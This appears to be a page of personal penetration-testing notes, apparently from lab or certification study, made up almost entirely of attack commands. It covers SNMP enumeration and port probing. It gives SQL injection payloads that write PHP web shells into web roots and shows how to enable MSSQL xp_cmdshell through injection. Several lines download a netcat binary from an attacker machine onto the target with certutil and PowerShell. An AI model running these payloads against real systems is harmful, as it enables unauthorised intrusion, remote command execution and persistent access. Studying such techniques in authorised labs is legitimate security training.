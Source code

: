 ```jsx
sudo nmap -sU -p161 --script *snmp* 192.168.240.42
```

```jsx
snmp-check 192.168.240.42
```

```jsx
snmpwalk -c public -v1 -t 10 192.168.50.151
snmpwalk -v1 -c public 192.168.189.156 1.3.6.1.4.1.8072.1.3.2.3.1.1
```

[SNMP enumeration (161,162)](https://www.notion.so/SNMP-enumeration-161-162-fd52dea43c264141a9e0dd5b07711ecb?pvs=21) - There is more specific enum

## Other voodoo unknown ports

```jsx
nc -nv 192.168.217.143 3003
help
version
```

# SQLi

```jsx
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' 
```

```jsx
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -'
```

<aside>
💡 We can find webshell location to upload in phpinfo (.php) DOCUMENT_ROOT

</aside>

### xp_cmdshell

```jsx
netexec mssql 10.10.137.148 -u sql_svc -p Dolphin1
impacket-mssqlclient svc_mssql:'Service1'@240.0.0.1 -windows-auth

# option from Nagoya
enable_xp_cmdshell
xp_cmdshell whoami

# SQL Injection
';EXEC sp_configure 'show advanced options', 1;--
';RECONFIGURE;--
';EXEC sp_configure "xp_cmdshell", 1;--
';RECONFIGURE;--

Then try with

';EXEC xp_cmdshell "certutil -urlcache -f http://Kali_IP/nc64.exe c:/windows/temp/nc64.exe";--

# Classic from the course
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';

EXECUTE xp_cmdshell 'powershell iwr -uri http://10.10.137.147:8888/nc64.exe -OutFile C:/Users/Public/nc64.exe';
```